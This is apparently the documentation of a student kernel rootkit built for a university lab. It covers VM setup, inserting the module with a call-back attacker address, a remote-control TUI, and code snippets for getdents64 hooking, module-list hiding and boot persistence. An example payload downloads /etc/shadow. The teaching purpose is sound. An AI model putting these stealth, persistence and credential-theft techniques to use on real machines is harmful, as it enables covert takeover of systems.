






# Epirootkit

This is the documentation for the rootkit I made for EPITA's SYS2 class: __epirootkit__.

- [Setup](#setup)
- [Usage](#using-the-rootkit)
- [Technical details](#inner-workings)

## Setup

### Victim machine

#### Creating the VM

Let's begin by downloading the Ubuntu 20.04 ISO from their official archive. You can
download it with wget using the following command:

```bash
wget https://old-releases.ubuntu.com/releases/focal/ubuntu-20.04-desktop-amd64.iso
```

Then, you will need to install the Virt-Manager program, in order to easily
manage KVM guests. It is packaged on all popular distributions, and the
download instructions can be found
[here](https://virt-manager.org/download.html).


Your computer will also need to have virtualization setup, ideally with KVM.
The steps are very specific to the hardware and distributions you use.

Once ready, you can open Virt-Manager and click on the `+` button to create a
new virtual machine. Select the previously downloaded image and follow the
install wizard to complete the setup as you like. You can name the machine
anything you like, and give it as much hardware resources as you want, just
make sure it's enough to handle this very advanced rootkit.
Virt-Manager should have created a `default` virtual network for you, make sure
to select it for your VM. If there is no network available, create a new one 
(Edit > Connection Details > `+` sign) with the following settings:

- __NAT__ network type
- A valid IPV4 addressing scheme
- A valid DHCP range to assign adresses to the machines automatically

Here is an example of how the XML network configuration should look like:

```xml
<network>
  <name>default</name>
  <uuid>d575d74b-96a6-4109-b371-ced1457d92e9</uuid>
  <forward mode="nat">
    <nat>
      <port start="1024" end="65535"/>
    </nat>
  </forward>
  <bridge name="virbr0" stp="on" delay="0"/>
  <mac address="52:54:00:c9:d9:0c"/>
  <ip address="192.168.122.1" netmask="255.255.255.0">
    <dhcp>
      <range start="192.168.122.2" end="192.168.122.254"/>
    </dhcp>
  </ip>
</network>
```

In case you need more details you can refer to [the RedHat
website](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/7/html/virtualization_deployment_and_administration_guide/sect-managing_guest_virtual_machines_with_virsh-managing_virtual_networks)
, or the [libvirt wiki](https://wiki.libvirt.org/VirtualNetworking.html) to get
setup. Keep in mind that the default should be all you need.


#### Installing Ubuntu

Start the VM and click the `Install Ubuntu` button. Choose a language and keyboard layout,
and make sure to untick the `Download updates while installing ubuntu` option on step 4. 
A minimal install is enough and will save you space and time.

 

Follow the rest of the wizard. This guide will assume you machine's hostname is
`victim` and the user is named `user`, but you can use whatever.

#### Installing packages, kernel and rootkit

Once the install is finished, reboot the machine, and get this repository.
There are various ways do to so:
- Set up a mountpoint between your host machine and the VM
- Generate an SSH key on the VM, and add it to your Forge profile so you can clone it
- Share your local folder with `scp`

I will demonstrate the last option here as it is very straightforward. First, click the
blue "info" button on the top bar of your Virt-Manager window, navigate to the "NIC"
tab, and take note of the "IP address" field (or use the `ip a` command).

 

Open a terminal in the VM and install SSH with the following command:

```bash
sudo apt install ssh
```

Make sure it's running with:

```bash
sudo systemctl status ssh
```

Then, use the following command to copy your local repository to the VM, making
sure to replace the local path, victim user name and IP by their actual values
(here i use `./epirootkit`, `user` and `192.168.122.29`)

```bash
scp -r ./epirootkit user@192.168.122.29:/home/user/epirootkit
```

Navigate to the `rootkit` directory and run the `bootstrap.sh` to handle all
the next important steps for you:
- update package repositories
- upgrade installed packages
- install the needed development packages to compile the kernel module
- edit the Grub configuration to allow you to boot in the right kernel

The last point is important because the rootkit is made to work with a kernel
version inferior to `5.7`. The Ubuntu 24.04 LTS release initially shipped with
version `5.4.0-26`, but donwloading it today will automatically bundle a more
recent version (`5.15.0-139`). The `5.4.0-26` version is still present in the
ISO, you can verify it by running `ls /lib/modules`, so we don't have to
install anything. The script will simply set the default boot entry to the
right kernel.

After you run the script, make sure you reboot the VM in order to switch to
the correct kernel version. You can verify it with the command `uname -r`.

Next, let's build the kernel module by navigating to the `rootkit` directory.
Running `make` will produce the `epirootkit.ko` module, but you should use the
provided `insert.sh` script to handle this. Don't run it for now as we will set
the attacking machine up first.


### Attacking machine

#### Installing the VM and OS

The attacknig machine only needs to build and run a Go binary. Go is a very
small and portable language so you can use almost anything for this (Linux 3.2
or higher). Since we've already downloaded an Ubuntu ISO that fullfills all
requirements earlier, we'll just use that.

In Virt-Manager, click on the `+` button and follow the same steps as above to
create another Ubuntu VM. In case you have multiple virtual networks, make sure
to select the same one you used for the victim VM so that they can communicate

Launch the VM and follow the guided installation, once again, you'll be fine with a
minimal install.

#### Building the attacking program

When the VM is ready, you'll once again need to get the repository with the 
method of your choice. Then, navigate to the `attacking_program/cli` directory
and run the `setup.sh` script.

The script will update the repos and install the needed packages. It will then
download Go 1.24.4 from the official website, extract it and put the binary in
`/usr/local`. The script will then update the user's path and print the result
of `go version`, to assert that everything went well. A [Nerd
Font](https://www.nerdfonts.com/) will also be installed, as the TUI makes use
of various special characters and emojis.

After running the script, run `source ~/.bashrc` to update the `$PATH` of your
current shell. You can now run `make build` to build the attacking program,
which will be placed in the `bin` directory.

## Using the rootkit 

### Inserting the module

Now that both your VMs are up and running, we can use the `insert.sh` script in
the victim machine to insert the module. It will create some directories used
by the rootkit to store various data, build the module, and finally insert it
with `insmod`. Two arguments can optionally be given to it: the IP address of
the attacking machine, and the port. You'll most likely only want to provide an
IP, as the default port is set to be the same on the rootkit and the attacking
program (6667).

To find out which IP address was assigned to your attacking VM, you can use the
`ip a` command inside it, or check it in Virt-Manager. 

```bash
# Useful for netcat debugging (IP will be 127.0.0.1, port 6667):
./insert.sh

# Set only IP (port will be 6667):
./insert.sh '192.168.1.88'

# Set IP and port:
./insert.sh '192.168.1.88' '9999'
```

> [!WARNING]
> Inserting the module will make it persistent and hidden by default! To remove
> it, you'll need to connect it to the attacking program, unlock it with the 
> password, un-hide it, and then use rmmod.

Now that you've managed to insert the rootkit, you can check it's activity in
the kernel logs with `dmesg -L -T -w`.

> [!NOTE]
> Flooding the kernel logs isn't very smart for a rootkit that wants to 
> acutally go unnoticed, but being a pedagocical project, I choose to keep the
> logs enabled by default, so you can see what's going on under the hood.

### Starting the TUI

The attacking program uses a Makefile with a `build` and a `run` rule.
Simply running `make run` will start the program. If you've set the right
IP and port when inserting the rootkit on the victim machine, and your two
VMs are actually on the same network, you should notice the status in the upper
right corner changing from "LISTENING" to "CONNECTED". You can confirm it by 
checking the kernel logs of the infected machine.

Congratulations, you can now remotely control this poor Ubuntu VM while staying
_completely_ hidden!

### Using the TUI

The UI is composed of a main pane on the left, and of a secondary one on the
right. The right pane is always visible and displays the connection status as
well as a logs window. The main pane is divided in 4 tabs, the `Tab/Shift+Tab`
or `Left/Right arrow` keys can be used to navigate between them. When inserted,
the rootkit will always start out locked, and every tab will prompt you for the
password before allowing you to use their respective features. Type the
following password to unlock the rootkit:

``` thisisverysecure ```

The rootkit can be locked again in the `Hide/Lock` tab, or by rebooting the
infected machine.

All features which require network communcations with the rootkit are handled
in a non-blocking way, so you can freely browse the UI while waiting for your
task to end. A _"Loading"_ message appears on the right pane if a command is
running.

#### Exec tab

The first tab displays a pager window, and a text input field below it. Typing
a command and pressing `enter` will execute the command on the infected
machine, and display the output. The output displayed will be `stdout` if the
command was successful, or `stderr` if it failed. Both ouputs are saved to a
file in the `/rootkit` directory, with names made of the first word of the
executed command concatenated with a timestamp. The `up` and `down` arrows can
be used to scroll in the pager.

 

#### Hide/Lock tab

The second tab controls wether the module is visible to userland
by toggling syscall hooks. You also have the option to lock the rootkit if
needed. Press the `H` key to hide or reveal the rootkit, and the `L` key to
lock it. You should see the status update accordingly.

 

#### Upload tab

This tab allows you to pick local files to send on the infected machine. You
can navigate the current directory with the `up/down` keys, and change
directories with the `escape` and `enter` keys to go back or forward.

The selected file will be saved in the `/rootkit/uploaded` directory of the 
infected machine.

#### Download tab

The last tab can be used to download files from the infected machine to the
attacking machine. Simply type a valid path and press `enter`. The file will
be saved to the current directory, and a timestamp will be appended to it's name.

## Inner workings

In this part, I'll give more detail about how both programs are structured, and
the technical choices I've made along the way.

### Rootkit

#### Network thread

The rootkit's control flow revolves around a network loop, which runs on it's
own thread, separate from the main one. This allows the main thread to react
to an eventual module removal event without hanging.

A single socket connection is established by the network thread, and is
maintained for as long as possible. If a read or write operation fails, a loop
attempting to establish a new connection will start immediatly. This unique 
connection is polled by the main loop every second, as the read operation on
the socket `kernel_recvmsg` is set to be non-blocking by the `MSG_DONTWAIT`
flag. With the default behavior, read operation will halt the program if there
are no bytes to read, until something is sent. This wasn't fitting my needs as 
the loop checks for `kernel_should_stop()`'s result in order to know when to exit,
but hanging on the socket read could delay reading this value for a very long time.
The `MSG_DONTWAIT` flag will continue the execution flow if no bytes are
available, with a special return value, which I use to `continue` the loop.

```c
while (kthread_should_stop() == 0)
{
    if (!sock)
    {
        // Conection lost: try to re-establish it every 3 seconds
        while ((r = network_init(cfg->ip, cfg->port)) != 0
            && kthread_should_stop() == 0)
        {
            msleep(3000);
        }
    }

    if (kthread_should_stop() || !sock)
    {
        break;
    }

    ret = kernel_recvmsg(sock, &resp_msg, &resp_vec, 1, 1023, MSG_DONTWAIT);
    if (ret == -EAGAIN || ret == -EWOULDBLOCK)
    {
        // No data, wait 1 second before trying again
        msleep(1000);
        continue;
    }
    if (ret < 0)
    {
        // Error happened: log it and set socket to NULL:
        NET_ERROR(status_buf)
    }
    // Process read bytes...
}
// If we end down here, the module has been removed
```

#### Commands

On a successful read, network loop will attempt to parse the data into a 
__command__. Commands map to all of the rootkit features which can be 
triggered remotely:

- execute a shell command
- set or syscall hooks to hide or reveal the rootkit to userland
- lock the rootkit
- upload a file
- download a file

They are defined in the `commands.h` file as a simple struct made of a an enum
tag, a callback function to run the command, and a string of arguments for the
command. For example, the _download_ command will need a filepath to read, or
the _exec_ command will need a shell command to try to execute.

The `cmd_build` function is responsible for doing the parsing and initializing
a `command` struct. The network loop will then attempt to run the command's
callback function after filtering the command based on the current lock state
(any command different from the unlocking one will be dropped if the rootkit is
locked). The callback takes a pointer to the socket as an argument, as every command
will need to write data to be sent to the attacking program.

#### First run and main thread flow

Let's now focus on what happens when you insert the module using the `insert.sh`
script. The directories `/rootkit`, `/rootkit/uploaded` and `/rootkit/persist` will
be created, and the kernel object will be copied to the latter location.

In the init function, the rootkit will try to make itself persistent by running the 
`persist.sh` script from userland with `call_usermodehelper`. This is because the 
tasks needed to be performed are not suited to being done from kernel land, using a
script from a root shell is way cleaner and easier. Here is a breakdown of what 
the script does in order to make the rootkit persist:

- Copy the `epirootkit.ko` kernel object to `/lib/modules/$(uname -r)/kernel/lib`
- Rebuild the module dependency tree with `depmod -a`
- Add the module's name to `/etc/modules` so it can be loaded by `kmod` on boot

Having the `epirootkit.ko` copied from the repository to `/rootkit/persist` first will
allow the script to find it in the same location on every run, no matter where you run
it from or where the repository is located on your machine.

If the script was executed successfully, the rootkit will then hook the necessary
syscalls to hide itself from userland. This is done with a call to the `setup_hooks`
function, which will be detailled in the next point.

After this, the init function starts a new kernel thread to run the network loop which
we described earlier. Everything is now setup, the main thread will idle until the 
module is removed. On removal, the exit function will simply stop the network thread
(which will respond instantly thanks to the non-blocking IO on the socket), clear the 
syscall hooks, and deallocate all resources.

#### Syscall hooks and other tricks 

To hide itself from userland, the rootkit will hook the kernel's internal
functions used by syscalls to modify the data they return. To do so, the
`ftrace` API is very useful: it allows us to track very precisely the execution
flow of the kernel, and to set callbacks to run when specific values are
contained in registers. Using this technique on the `RIP` register (the
instruction) pointer allows us to place callbacks on any kernel function we
want, if we know it's address.

But how can we know the address of a specific function? Because of _Adress
Space Layout Randomization_, we can't just look them up online and hardcode
them. Thankfully, the kernel developpers have given us the exact tool we need:
the `kallsyms_lookup_name` function. It allows us to dynamically query the address
of any symbol by it's name in the kernel's memory.

We now have everything we need to hook kernel functions. The `hook.c` file contains
helper functions to facilitate this process:

- `find_hook_addr` will query the address of the desired function, and store a
pointer to the original function, so we can directly call it in our callback
- `setup_hook` will use our previous helper along with `ftrace` to set a
callback to run when `RIP` hits the targeted function
- `remove_hook` will use `ftrace` to deactivate our callback

Thanks to these, the `setup_hooks`, `clear_hooks` and `toggle_hooks` functions 
can perform the same operations on an array of hooks. The only useful hook for 
the rootkit to stay hidden is the one on `getdents64`. This is the syscall 
responsible for getting informations about a directory entry. It is used all
over the place by programs and shell builtins who deal with the file system 
(that's a lot of programs). The strategy here is to call the original
`sys_getdents64` function from our hook, copy the returned `dirent` (a
directory entry structure containing lots of infos) to kernel memory so we can
tinker with it, then copy back our altered version to user memory, and return
it instead of the original. The tinkering consists in looping over all the 
entries in the `dirent` (they are all contiguous in memory) and checking if 
their name contains the substring `rootkit`. If so, we'll remove them from the list 
by shifting the rest of the list back by the removed entry's size.

```c
while (i < sz)
{
    // kernel_cpy is the original dirent, copied to kernel memory
    cur_entry = (void *)kernel_cpy + i;
    if (strstr(cur_entry->d_name, "rootkit") != NULL)
    {
        long remaining = spoofed_sz - (i + cur_entry->d_reclen);
        spoofed_sz -= cur_entry->d_reclen;
        pr_info("hook: masking dirent `%s`.\n", cur_entry->d_name);
        memmove(cur_entry, (void *)cur_entry + cur_entry->d_reclen,
                remaining);
        continue;
    }
    // only increment if we haven't shifted
    i += cur_entry->d_reclen;
}

if (spoofed_sz != sz)
{
    pr_info("hook: shrunk dirent buffer: %ld -> %ld bytes.\n", sz,
            spoofed_sz);
}

```

This is the loop that removes entries and shifts the list back, maintaining a 
`spoofed_sz` variable that starts out equal to the original `dirent`'s size, 
and gets decremented on every shift.

The other mecanism used along with hooks is removal from the loaded modules
list. The module list is an internal linked list used by all programs that
return informations about kernel modules on the system. For example, `lsmod`.
Fortunately for us, the kernel provides us a nice macro to get a pointer to 
our module's list node: `THIS_MODULE`. The list is a doubly-linked one, and
a function to remove a node already exists: `list_del`, thus, when setting hooks
up, we just have to store `THIS_MODULE->list.prev` in a global variable and
remove `&THIS_MODULE->list` from the modules list. And that's it, we're invisible.
To reinsert ourselves back in the list so we can use `rmmod`, the `clear_hooks`
function will add our module back to the list at the same position, thanks to 
the previous node pointer we saved to a global variable. The internal function
`list_add` takes care of it for us.

#### Kernel versions supported

The module hasn't been tested on versions other than the Ubuntu
`5.4.0-26-generic`, but should work fine on versions above `4.17.0`. Before
that, the calling convention for syscalls was different, so the hook's function
signatures would cause errors. The version `5.7.0` introduced new security
measures to prevent script kiddies from hooking syscalls too easily (it was
really easy), such as unexporting our magic key to every symbol's address:
`kallsyms_lookup_name`. Another method needs to be used to find get pointers to
the functions we wish to hook so our approach clearly won't work.

The `kallsyms` method was easier so I choose to stay under version `5.7`, but I
wanted to stay as modern as possible and decided to support the newer syscall
signatures introduced with `4.17.0`. When looking at the kernels provided by
LTS Ubuntu releases, I found that `24.04` shipped with `5.4` and decided to go
with that, as it's a very (way too much) widespread release (of a way too
popular distro).

### Attacking program

#### Technical choices 

For my attacking program, I didn't want to build something web-based (I've had
enough latetly), but wanted something more elaborated than rudimentary scripts
or a blank CLI. I opted to build a TUI instead to learn something new, and
mostly for style points. While I initially thaught about using `ncurses`, I
stumbled upon [Bubbletea](https://github.com/charmbracelet/bubbletea), and the
[Charm libraries](https://charm.sh/libs/). I am already proficient with Go and 
it is my go-to high-level language when I need to build something fast, so I 
went with Bubbletea.

Despite being a very small and minimal language, Go's standard library provides
all the building blocks needed to build this kind of apps, as well as very
pleasant tools to work with concurrency (channels and context rock). This means
I didn't need to integrate any external dependency besides Bubbletea for
creating a TUI interface. The
[Bubbles](https://github.com/charmbracelet/bubbles) and
[Lipgloss](https://github.com/charmbracelet/lipgloss) packages by the same
author were also used as they allowed me to avoid redefining some basic
components and style primitives.

#### Bubbletea program

elm architecture blabla it's very cool

I'll briefly explain how Bubbletea programs are architectured so you can
understand how and why my code works, but I highly recommend reading [the basic
guide](https://github.com/charmbracelet/bubbletea/tree/main/tutorials/basics),
as well as [the one on
commands](https://github.com/charmbracelet/bubbletea/tree/main/tutorials/commands)
if you really want to learn how this works.

A Bubbltea application is cenered on a `Model`: it is an object that can
contain any number of data fields and methods, provided it implements the
following interface:

```go 
// In Go, functions can return multiple values
func (m Model) Init() tea.Cmd
func (m Model) Update(msg tea.Msg) (tea.Model, tea.Cmd)
func (m Model) View() string
```

The `(m Model)` before each function's name means that the function is a method
of the `Model` type, and needs to be called on a `Model` instance.

The `View` method will return a string corresponding to what will be displayed
on the terminal for this frame. The creation of the string is made easy by 
the numerous utilites available, such as coloring text, adding border, padding
and margins around elements, joining elements toghether...

The `Init` method returns a __command__ (`tea.Cmd`). A command is a callback function
with the following signature:

```go
func() tea.Msg
```

Basically, it's a function that takes no arguments, and returns a __message__ (`tea.Msg`).
On every command ran, the `Update` method will be called with the emitted message as an
argument. There are a couple message pre-defined by the library, such as `KeyMsg` or 
`WindowSizeMsg`, and the user can easily define more as messages can be anything: they are
just like a typedef in C over an empty interface.

```go
type Msg interface{}
```

For more advanced programs, Bubbletea provides poweful commands such as
`tea.Batch` or `tea.Sequence` for dispatching multiple commands from a single
`Update` call. The former will run all of them concurrently, while the latter
will sequence the order in which they run. They are used a lot in my
application, for example to schedule a function that will poll the socket
connection to run on every frame, before the rest of the other commands which
can be executed in parallel.

Another pattern is the embeding of multiple `Model`s in the root model of the
program. On each `Update`, the root model will dispatch the message to it's 
child models if needed. The main model is defined in the `model/model.go` file,
and it contains the following custom models:

- `ExecModel`: the model for the "Exec" tab 
- `HideModel`: the model for the "Hide/Lock" tab
- `DownloadModel`: the model for the "Download" tab
- `UploadModel`: the model for the "Upload" tab
- `PasswordModel`: the model displayed when the rootkit is locked
- `LogsModel`: The model always displayed on the right window

Some pre-defined models from the `Bubbles` library are also used by the main
model and its children, notably `textinput`, `filepicker`, `spinner` and
`viewport`. The main model keeps track of which tab is currently focused to
know where to dispatch the messages, and which `View` method to call to render
the main pane's content.


#### Concurrency and socket access

As I mentionned in the previous part, the application has multiple components which 
run asynchronously, as it is a very common practice to dispatch multiple commands
from the same model update. The models of the four tabs all need to read and write 
to the socket connection in order work, but this connection has to be kept unique,
and there can only be one thread listening on it at a time.

To solve this problem, I decided that the socket access would be exclusive to the 
main model of the application. It will keep state about the connection's status,
and dispatch a command to listen and accept connection (`listenAndAcceptCmd`) on
every tick when not connected to the rootkit.
When connected, a command to listen on the socket will be dispatched: the 
`readSocketCmd`.

```go
// Main model's update method:
switch msg := msg.(type) {
case ConnectionUpdateMsg:
    m.server.ConnState = server.ConnectionStatus(msg)
    if m.server.ConnState == server.Disconnected {
        m.server.Sock = nil
        // Starts a thread which will listen for connections:
        return m, m.listenAndAcceptCmd() 
    } else if m.server.ConnState == server.Connected {
        // Starts a thread that will permanently attempt to read on the socket:
        return m, tea.Sequence(m.setHiddenLocked, m.readSocketCmd())
    }

// And a lot more...
}
```

This command will only exit when an error occurs while reading, and emit the
`ConnectionUpdateMsg` with the `Disconnected` status, so we know to start
waiting for connections again. As you can see, it is scheduled to run after
another command: `setHiddenLocked`. When a connection is established, the
rootkit will always send two bytes to the attacking program, representing
wether it is hidden and wether it is locked. The first thing the attacking
program does is reading these two bytes to set the correct statuses on it's
side, and only then it will start the `readSocketCmd` thread.

So now you may be wondering how do the other models interact with the socket at
all if it is exclusive to the main thread? The answer is a shared `channel`. If
you're not familiar with Go's channels, I highly encourage you to read the
following resources:

- go tour
- go by example
- article

They allow multiple threads to communicate asynchronously and share data
without race conditions, and without having to deal with mutexes or condition
variables. All models hold a reference to this channel, and when triggered,
their respective commands will write some payload to the socket, set the 
shared `isLoading` boolean to true, and then start listening for the rootkit's
response on the channel in a loop. Only when the command has finished listening
(or timed out) and thus exited the loop will the `isLoading` flag be flipped
back to false. While it is true, no other thread can start a job listening
on the channel.

In all my custom submodels, the first write to the socket is separated from the
listening part in a different method, and the writing one will be scheduled
first by the `Update` method thanks to the `tea.Sequence` command. This is 
because the rootkit could send an error message that would instantly cancel
the operation, or something could go wrong on the frontend side as well, for
example with the download feature which will need to create a file on disk.

The `isLoading` flag does not need to be protected by a mutex despite being
accessed by multiple threads, because on every tick, a command will be
dispatched to only a single child model: the one currently in focus. The user
would need to be able to start an operation in a tab, switch tabs and start
another operation in a single frame, which is impossible since each message is
handled in a separate `Update` call.

### Communication conventions

I tried to do things as simply as I could for the communication part between
the two components. I didn't want to create my own network protocol for this
project, although I should have if I wanted a more robust framework for
advanced features.

#### Opcodes

Each command the rootkit responds to is simply assigned to
a numeric opcode, which you can find in the `commands.c` and `commands.h` files:

```c
// map each command type to it's callback
static cmd_callback cmd_callbacks[] = {
    [CMD_EXEC_SYNC] = do_exec_sync, //
    [CMD_EXEC_ASYNC] = do_exec_async, //
    [CMD_HIDE] = do_hide, //
    [CMD_UPLOAD] = do_upload, //
    [CMD_DOWNLOAD] = do_download, //
    [CMD_UNLOCK] = do_unlock,
    [CMD_LOCK] = do_lock,
};
```

The attacking program will just send the opcode, followed by a space and then 
the eventual arguments to the command. Here are a few examples:

```
# Run `whoami`:
0 whoami

# Download /etc/shadow:
4 /etc/shadow

# Toggle the hooks (no args):
2
```

As mentionned previously, the `cmd_build` command is in charge of parsing these
payloads.

#### Magic bytes

After exexuting, the rootkit will send a simple status message for
